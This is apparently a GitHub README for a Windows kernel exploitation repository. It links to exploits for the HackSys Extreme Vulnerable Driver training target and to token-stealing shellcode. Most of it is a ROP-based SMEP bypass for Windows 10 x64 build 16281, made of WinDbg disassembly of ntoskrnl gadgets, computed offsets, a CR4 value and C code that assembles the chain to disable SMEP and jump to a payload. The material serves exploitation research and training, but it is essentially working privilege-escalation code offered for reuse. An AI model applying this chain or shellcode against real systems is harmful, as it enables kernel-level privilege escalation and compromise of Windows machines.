

# Kernel SAGA
Windows Kernel Exploitation. <br>
Static & dynamic analysis, exploits & vuln reasearch. <br>
Mitigations bypass's <br>

# Contents:
HEVD-Vanilla-Bug-Class's:<br>
Exploits & Vuln Note's in order to reproduce & reuse.<br>
* <html><a href="https://github.com/akayn/demos/tree/master/HEVD-Vanilla-Bug-Class's">HEVD-Vanilla-Bug-Class's</a></html><br>
	[+] <html><a href="https://github.com/akayn/demos/blob/master/HEVD-Vanilla-Bug-Class's/Compiled.zip?raw=true">Compiled-win7x86</a></html><br>
	* <html><a href="https://github.com/akayn/demos/blob/master/HEVD-Vanilla-Bug-Class's/HEVD-TypeConfX86Win7.c">Type Confusion</a></html>.<br>
	* <html><a href="https://github.com/akayn/demos/blob/master/HEVD-Vanilla-Bug-Class's/HEVD-ArbitraryOverwritex86win7.c">Arbitrary Overwrite</a></html>.<br>
	* <html><a href="https://github.com/akayn/demos/blob/master/HEVD-Vanilla-Bug-Class's/HEVD-NullPointerDereference.c">Null Pointer Dereference</a></html>.<br>
	* <html><a href="https://github.com/akayn/demos/blob/master/HEVD-Vanilla-Bug-Class's/HEVD-PoolOverFlow-Win7-x86.c">Pool OverFlow</a></html>.<br>
	* <html><a href="https://github.com/akayn/demos/blob/master/HEVD-Vanilla-Bug-Class's/HEVD-StackOverFlowx86Win7.c">Stack OverFlow</a></html>.<br>
	* <html><a href="https://github.com/akayn/demos/blob/master/HEVD-Vanilla-Bug-Class's/HEVD-Uaf-Win7x86.c">Use After Free.</a></html>.<br>
ShellCode: <html><a href="https://github.com/akayn/demos/blob/master/Win10/PayLoads/TokenStealingShellCode.asm">pl.asm</a></html><br>
ROP Based SMEP Bypass including Gadgets & full debugging info: <html><a href="https://github.com/akayn/demos/blob/master/Win10/SmepByPassWin10x64build.16281Rs3/demo.cc">SmepBypassX64Win10RS3.c</a></html><br>

# SMEP bypass on Win10x64 RS3 16281

# Gadgets Summery:

```c

/*
************* Symbol Path validation summary **************
Response                         Time (ms)     Location
Deferred                                       srv*
Symbol search path is: srv*
Executable search path is:
Windows 10 Kernel Version 16281 MP (1 procs) Free x64
Built by: 16281.1000.amd64fre.rs3_release.170829-1438
Machine Name:
Kernel base = 0xfffff803`a8a10000 PsLoadedModuleList = 0xfffff803`a8d79f70
System Uptime: 0 days 0:00:00.419
KDTARGET: Refreshing KD connection
Break instruction exception - code 80000003 (first chance)
kd> uf nt!KiFlushCurrentTbWorker
nt!KiFlushCurrentTbWorker:
fffff803`a8ab9b0c 0f20e1          mov     rcx,cr4
fffff803`a8ab9b0f 84c9            test    cl,cl
fffff803`a8ab9b11 790f            jns     nt!KiFlushCurrentTbWorker+0x16 (fffff803`a8ab9b22)  Branch
nt!KiFlushCurrentTbWorker+0x7:
fffff803`a8ab9b13 488bc1          mov     rax,rcx
fffff803`a8ab9b16 480fbaf007      btr     rax,7
fffff803`a8ab9b1b 0f22e0          mov     cr4,rax
fffff803`a8ab9b1e 0f22e1          mov     cr4,rcx <<<< -- gadget..
fffff803`a8ab9b21 c3              ret
nt!KiFlushCurrentTbWorker+0x16:
fffff803`a8ab9b22 0f20d8          mov     rax,cr3
fffff803`a8ab9b25 0f22d8          mov     cr3,rax
fffff803`a8ab9b28 c3              ret
kd> ? fffff803`a8ab9b1e - 0xfffff803`a8a10000
Evaluate expression: 695070 = 00000000`000a9b1e <<< -- offset from Ntoskrnl...
kd> uf nt!HvlEndSystemInterrupt
nt!HvlEndSystemInterrupt:
fffff803`a8b8d950 4851            push    rcx
fffff803`a8b8d952 50              push    rax
fffff803`a8b8d953 52              push    rdx
fffff803`a8b8d954 65488b142508620000 mov   rdx,qword ptr gs:[6208h]
fffff803`a8b8d95d b970000040      mov     ecx,40000070h
fffff803`a8b8d962 0fba3200        btr     dword ptr [rdx],0
fffff803`a8b8d966 7206            jb      nt!HvlEndSystemInterrupt+0x1e (fffff803`a8b8d96e)  Branch
nt!HvlEndSystemInterrupt+0x18:
fffff803`a8b8d968 33c0            xor     eax,eax
fffff803`a8b8d96a 8bd0            mov     edx,eax
fffff803`a8b8d96c 0f30            wrmsr
nt!HvlEndSystemInterrupt+0x1e:
fffff803`a8b8d96e 5a              pop     rdx
fffff803`a8b8d96f 58              pop     rax
fffff803`a8b8d970 59              pop     rcx  <<< --- gadget...
fffff803`a8b8d971 c3              ret
kd> ? fffff803`a8b8d970 - 0xfffff803`a8a10000
Evaluate expression: 1562992 = 00000000`0017d970 << -- offset..
kd> uf nt!KiConfigureDynamicProcessor
nt!KiConfigureDynamicProcessor:
fffff803`e223ec38 4883ec28        sub     rsp,28h
fffff803`e223ec3c e87b49ffff      call    nt!KiEnableXSave (fffff803`e22335bc)
fffff803`e223ec41 4883c428        add     rsp,28h
fffff803`e223ec45 c3              ret
kd> uf nt!KiEnableXSave
nt!KiEnableXSave:
fffff803`e22335bc 0f20e1          mov     rcx,cr4
fffff803`e22335bf 48f7054e4bfdff00008000 test qword ptr [nt!KeFeatureBits (fffff803`e2208118)],800000h
fffff803`e22335ca b800000400      mov     eax,40000h
fffff803`e22335cf 0f8450740000    je      nt!KiEnableXSave+0x7469 (fffff803`e223aa25)  Branch
nt!KiEnableXSave+0x19:
fffff803`e22335d5 4885c8          test    rax,rcx
fffff803`e22335d8 7453            je      nt!KiEnableXSave+0x71 (fffff803`e223362d)  Branch
nt!KiEnableXSave+0x1e:
fffff803`e22335da 48bad803000080f7ffff mov rdx,0FFFFF780000003D8h
fffff803`e22335e4 33c9            xor     ecx,ecx
fffff803`e22335e6 488b12          mov     rdx,qword ptr [rdx]
fffff803`e22335e9 488bc2          mov     rax,rdx
fffff803`e22335ec 48c1ea20        shr     rdx,20h
fffff803`e22335f0 0f01d1          xsetbv
fffff803`e22335f3 48baf005000080f7ffff mov rdx,0FFFFF780000005F0h
fffff803`e22335fd 488b12          mov     rdx,qword ptr [rdx]
fffff803`e2233600 4885d2          test    rdx,rdx
fffff803`e2233603 0f8509740000    jne     nt!KiEnableXSave+0x7456 (fffff803`e223aa12)  Branch
nt!KiEnableXSave+0x4d:
fffff803`e2233609 65488b0c2520000000 mov   rcx,qword ptr gs:[20h]
fffff803`e2233612 488d81f0010000  lea     rax,[rcx+1F0h]
fffff803`e2233619 483981c0620000  cmp     qword ptr [rcx+62C0h],rax
fffff803`e2233620 740a            je      nt!KiEnableXSave+0x70 (fffff803`e223362c)  Branch
nt!KiEnableXSave+0x66:
fffff803`e2233622 8189c862000040001000 or  dword ptr [rcx+62C8h],100040h
nt!KiEnableXSave+0x70:
fffff803`e223362c c3              ret  Branch
nt!KiEnableXSave+0x71:
fffff803`e223362d 480bc8          or      rcx,rax
fffff803`e2233630 0f22e1          mov     cr4,rcx
fffff803`e2233633 eba5            jmp     nt!KiEnableXSave+0x1e (fffff803`e22335da)  Branch
nt!KiEnableXSave+0x7456:
fffff803`e223aa12 488bc2          mov     rax,rdx
fffff803`e223aa15 b9a00d0000      mov     ecx,0DA0h
fffff803`e223aa1a 48c1ea20        shr     rdx,20h
fffff803`e223aa1e 0f30            wrmsr
fffff803`e223aa20 e9e48bffff      jmp     nt!KiEnableXSave+0x4d (fffff803`e2233609)  Branch
nt!KiEnableXSave+0x7469:
fffff803`e223aa25 4885c8          test    rax,rcx
fffff803`e223aa28 0f84fe8bffff    je      nt!KiEnableXSave+0x70 (fffff803`e223362c)  Branch
nt!KiEnableXSave+0x7472:
fffff803`e223aa2e 480fbaf112      btr     rcx,12h
fffff803`e223aa33 0f22e1          mov     cr4,rcx <<<--- gadget...
fffff803`e223aa36 c3
kd> ? fffff803`e223aa33 - fffff803`e1e06000
Evaluate expression: 4409907 = 00000000`00434a33 <<-- offset..
*/

  	// To better align the buffer,
	// it is usefull to declare a
	// memory structure, other-wise you will get holes
	// in the buffer and end up with an access violation.
	typedef struct _RopChain {
		PUCHAR HvlEndSystemInterrupt;
		PUCHAR Var;
		PUCHAR KiEnableXSave;
		PUCHAR payload;
		// PUCHAR deviceCallBack;
	} ROPCHAIN, *PROPCHAIN;


  	// Pack The buffer as:  

	ROPCHAIN Chain;

	// nt!HvlEndSystemInterrupt+0x1e --> Pop Rcx; Retn;
	Chain.HvlEndSystemInterrupt = Ntos + 0x17d970;

	// kd> r cr4
	// ...1506f8
	Chain.Var = (PUCHAR)0x506f8;


	// nt!KiEnableXSave+0x7472 --> Mov Cr4, Rcx; Retn;
	Chain.KiEnableXSave = Ntos + 0x434a33;

	Chain.payload = (PUCHAR)pl;

	/*
	kd> k
	08 ffffb302`61b1e7f0 fffff802`4f85c20b nt!IofCallDriver+0x59
	09 ffffb302`61b1e830 fffff802`4f85ba5f nt!IopSynchronousServiceTail+0x1ab
	0a ffffb302`61b1e8e0 fffff802`4f85b3c6 nt!IopXxxControlFile+0x67f
	0b ffffb302`61b1ea20 fffff802`4f58f953 nt!NtDeviceIoControlFile+0x56
	0c ffffb302`61b1ea90 00007ffd`fae7d6e4 nt!KiSystemServiceCopyEnd+0x13
	0d 00000029`6b9af888 00007ffd`f75a13aa ntdll!NtDeviceIoControlFile+0x14
	0e 00000029`6b9af890 00000000`00000000 0x00007ffd`f75a13aa
	kd> u nt!IofCallDriver+0x59
	nt!IofCallDriver+0x59:
	fffff802`4f425b49 4883c438        add     rsp,38h
	fffff802`4f425b4d c3              ret
	fffff802`4f425b4e 0fb64001        movzx   eax,byte ptr [rax+1]
	fffff802`4f425b52 2c02            sub     al,2
	fffff802`4f425b54 3c01            cmp     al,1
	fffff802`4f425b56 77dc            ja      nt!IofCallDriver+0x44 (fffff802`4f425b34)
	fffff802`4f425b58 488bca          mov     rcx,rdx
	fffff802`4f425b5b e8c4890f00      call    nt!IopPoHandleIrp (fffff802`4f51e524)
	
	 The Call is always in a fixed location from Ntoskrnl...
	*/

	// nt!IofCallDriver+0x59
	LPVOID deviceCallBack = (LPVOID)(Ntos + 0x22b49);

```


